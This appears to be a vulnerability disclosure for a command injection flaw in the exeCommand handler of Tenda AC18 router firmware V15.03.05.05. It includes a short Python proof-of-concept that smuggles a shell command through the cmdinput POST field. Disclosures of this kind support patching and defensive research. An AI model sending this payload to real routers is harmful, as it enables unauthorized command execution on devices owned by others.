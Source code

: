 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html
- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a command injection vulnerability in the formexeCommand function. The s variable receives the cmdinput parameter from a POST request and is later assigned to the s variable. Since the user can control the input of cmdinput, the statement doSystemCmd("%s > /tmp/cmdTmp.txt", s); can cause a command injection. 

![alt text](assets/formexeCommand/image.png)

## POC

```python
import requests
IP = '198.19.249.140:80'
url = f"http://{IP}/goform/exeCommand"
data = "cmdinput=asd;ls -la . > ./tmp/hack;"
ret = requests.post(url=url,data=data)
```
![alt text](assets/formexeCommand/image-1.png)